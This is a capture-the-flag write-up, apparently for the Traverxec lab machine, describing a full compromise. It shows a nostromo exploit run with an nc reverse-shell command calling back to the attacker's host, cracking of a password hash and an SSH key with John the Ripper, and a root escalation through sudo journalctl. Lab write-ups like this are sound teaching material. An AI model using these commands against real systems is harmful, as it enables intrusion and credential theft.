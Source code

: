 # Traverxec

IP: `10.10.10.165`

## Port 80

- Readme with basic template from a website caled templatemag
- Server is `nostromo 1.9.6`
- Use this exploit: https://www.exploit-db.com/exploits/47837
- Make a reverse shell with:

```sh
python cve2019_16278.py 10.10.10.165 80 "nc -e /bin/sh 10.10.14.21 443"
```

Upgrade to TTY shell:

```sh
python -c 'import pty; pty.spawn("/bin/sh")'
```

## User esc

- Sudo version 1.8.27
- password for david: `david:$1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/`
- Quick john the ripper gives `Nowonly4me (david)`
- Neither SSH nor su works with the david password
- We find another directory that's intereting which is david's homedirectory

```sh
homedirs                /home
homedirs_public         public_www
```

shows that there should be a folder inside the home directory of david

We can copy that protected file to a tmp directory and untar &unzip it.

Grabbing the id_rsa file and outputting it locally, we see that it's encrypted. Let's convert the ssh to john format using `sshng2john.py`

```sh
python sshng2john.py id_rsa > id_rsa_hashes
sudo john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa_hashes
# password is hunter
```

Now lets make an unencrypted id_rsa

```sh
openssl rsa -in id_rsa -out id_rsa_uncrypted
```

and ssh with david:

```sh
ssh -i id_rsa_uncrypted david@10.10.10.165
```

## Priv esc

we see that in the `server-stats.sh` file, journalctl is being called with sudo.

We also notice that it has to be called with the parameters given asides from the pipe.

There is a priv esc for it: https://gtfobins.github.io/gtfobins/journalctl/

and since journalctl is like `less`, we can invoke a shell from the less prompt. Simply shrink the screen until all the output can't be outputted in a single command, then a prompt will appear such that we can use `!/bin/sh`
